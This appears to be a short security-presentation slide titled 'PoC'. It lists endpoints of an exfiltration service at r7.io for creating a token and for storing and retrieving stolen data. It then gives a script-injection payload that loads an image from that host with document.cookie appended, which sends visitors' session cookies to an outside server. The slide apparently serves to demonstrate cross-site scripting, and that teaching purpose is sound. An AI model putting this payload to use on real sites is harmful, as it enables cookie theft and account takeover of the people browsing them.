

# PoC
http://r7.io/exfil_create to get a token
http://r7.io/e/[token]?s=[data] to save the exfiltrated data
http://r7.io/e/[token] to access the exfiltrated data

<script>
	i = new Image();
	i.src='http://r7.io/e/LYddhj5f8X?s='+document.cookie;
</script>